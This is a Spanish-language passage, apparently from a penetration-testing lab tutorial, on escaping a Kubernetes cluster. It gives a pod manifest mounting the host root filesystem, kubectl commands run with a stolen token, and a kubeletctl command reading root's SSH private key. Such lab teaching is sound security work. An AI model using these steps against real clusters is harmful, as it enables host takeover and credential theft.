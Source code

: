 Aquí podemos ver algunas informaciones muy importantes. Además de los selfsubject-resources, podemos `get` (obtener), `create` (crear), y `list` (listar) pods, que son los recursos que representan el contenedor en ejecución en el clúster. A partir de aquí, podemos crear un archivo `YAML` que podemos usar para crear un nuevo contenedor y montar todo el sistema de archivos raíz del sistema host en el directorio `/root` de este contenedor. Desde allí, podríamos acceder a los archivos y directorios del sistema host. El archivo `YAML` podría parecerse a lo siguiente:

### Pod YAML



```r
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Una vez creado, ahora podemos crear el nuevo pod y verificar si está funcionando como se esperaba.

### Creando un nuevo Pod



```r
cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml

pod/privesc created


cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
```

Si el pod está funcionando, podemos ejecutar el comando y podríamos generar un reverse shell o recuperar datos sensibles como la clave SSH del usuario root.

### Extrayendo la clave SSH del Root



```r
cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc

-----BEGIN OPENSSH PRIVATE KEY-----
...SNIP...
```